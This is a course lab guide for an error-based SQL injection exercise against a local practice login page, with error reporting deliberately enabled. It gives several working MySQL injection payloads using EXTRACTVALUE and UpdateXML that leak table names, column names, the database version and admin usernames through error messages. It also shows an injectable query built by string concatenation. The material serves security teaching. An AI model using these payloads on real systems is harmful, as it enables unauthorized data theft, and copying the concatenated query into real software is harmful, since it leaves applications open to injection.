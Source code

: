 # Task 3.A: Error-Based Schema Discovery Attack Guide

## 🎯 **Objective:**
Extract database table names by forcing MySQL errors that reveal schema information through the login form.

## 🔧 **Preparation Complete:**
✅ Error reporting has been ENABLED in `login.php`  
✅ MySQL errors will now be displayed in the login failure message

## 🔍 **Target Analysis:**
- **File:** `login.php` (with error reporting enabled)
- **Vulnerable Query:** `SELECT username, role, secret_flag FROM users WHERE username = '$username' AND password_hash = '$password'`
- **Attack Vector:** POST parameter `username`
- **Technique:** EXTRACTVALUE() function to force errors

## 🔐 **Error-Based SQL Injection Strategy:**

### **Understanding EXTRACTVALUE():**
- `EXTRACTVALUE(xml_data, xpath_expr)` extracts values from XML
- When given invalid XPath syntax, it throws an error
- We can embed database queries in the XPath to leak data through error messages

## 🛠️ **Attack Payloads:**

### **Payload 1: Extract First Table Name**
```sql
admin' AND EXTRACTVALUE(1, CONCAT('~', (SELECT table_name FROM information_schema.tables WHERE table_schema='assignment_db' LIMIT 1))) --
```

### **Payload 2: Extract All Table Names (One by One)**
```sql
admin' AND EXTRACTVALUE(1, CONCAT('~', (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema='assignment_db'))) --
```

### **Payload 3: Extract Specific Table (users)**
```sql
admin' AND EXTRACTVALUE(1, CONCAT('~', (SELECT table_name FROM information_schema.tables WHERE table_schema='assignment_db' AND table_name LIKE 'users'))) --
```

### **Payload 4: Alternative using UpdateXML**
```sql
admin' AND UpdateXML(1, CONCAT('~', (SELECT table_name FROM information_schema.tables WHERE table_schema='assignment_db' LIMIT 1)), 1) --
```

## 📋 **Step-by-Step Execution:**

### **Step 1: Access Login Page**
1. Open browser
2. Navigate to: `http://localhost/sqli_lab/login.php`
3. Verify error reporting is working by entering wrong credentials

### **Step 2: Execute Error-Based Attack**
1. **Username field:** Enter the payload:
   ```
   admin' AND EXTRACTVALUE(1, CONCAT('~', (SELECT table_name FROM information_schema.tables WHERE table_schema='assignment_db' LIMIT 1))) --
   ```

2. **Password field:** Enter anything (e.g., `test`)

3. **Click Login**

### **Step 3: Analyze Error Message**
You should see an error message like:
```
Login Failed. MySQL Error: XPATH syntax error: '~users'
```
or
```
Login Failed. MySQL Error: XPATH syntax error: '~products'
```

## 🎯 **Expected Results:**

### **Successful Attack Output:**
```
Login Failed. MySQL Error: XPATH syntax error: '~[TABLE_NAME]'
```

Where `[TABLE_NAME]` will be one of:
- `users`
- `products`

## 📸 **Deliverable 3.A Requirements:**

### **1. Error Payload:**
```
admin' AND EXTRACTVALUE(1, CONCAT('~', (SELECT table_name FROM information_schema.tables WHERE table_schema='assignment_db' LIMIT 1))) --
```

### **2. Screenshot Requirements:**
Take a screenshot showing:
- ✅ The exact payload in the Username field
- ✅ The MySQL error message displaying table name
- ✅ The complete error format: "Login Failed. MySQL Error: XPATH syntax error: '~[table_name]'"

## 🔍 **Alternative Payloads to Try:**

### **Extract Column Names:**
```
admin' AND EXTRACTVALUE(1, CONCAT('~', (SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 1))) --
```

### **Extract Database Version:**
```
admin' AND EXTRACTVALUE(1, CONCAT('~', VERSION())) --
```

### **Extract Current Database:**
```
admin' AND EXTRACTVALUE(1, CONCAT('~', DATABASE())) --
```

### **Extract User Data:**
```
admin' AND EXTRACTVALUE(1, CONCAT('~', (SELECT username FROM users WHERE role='admin' LIMIT 1))) --
```

## 🛠️ **How the Attack Works:**

### **Original Query:**
```sql
SELECT username, role, secret_flag FROM users WHERE username = 'admin' AND EXTRACTVALUE(1, CONCAT('~', (SELECT table_name FROM information_schema.tables WHERE table_schema='assignment_db' LIMIT 1))) -- ' AND password_hash = 'test'
```

### **What Happens:**
1. **EXTRACTVALUE()** tries to parse XML with invalid XPath
2. **CONCAT('~', ...)** creates invalid XPath syntax
3. **MySQL throws error** containing our extracted data
4. **Error message** displays the table name we queried

## ⚠️ **Troubleshooting:**

### **If No Error Appears:**
- Verify error reporting was uncommented in `login.php`
- Check that XAMPP Apache/MySQL are running
- Try refreshing the page

### **If Query Fails:**
- Check payload syntax carefully
- Ensure single quotes are properly escaped
- Try alternative EXTRACTVALUE payloads

## 🚀 **Ready to Attack!**

### **Primary Payload to Use:**
```
admin' AND EXTRACTVALUE(1, CONCAT('~', (SELECT table_name FROM information_schema.tables WHERE table_schema='assignment_db' LIMIT 1))) --
```

### **Execution Steps:**
1. Go to `http://localhost/sqli_lab/login.php`
2. Enter the payload in **Username** field
3. Enter anything in **Password** field  
4. Click **Login**
5. Screenshot the error message showing table name

**Execute the attack now and capture the error message revealing database table names!** 🔓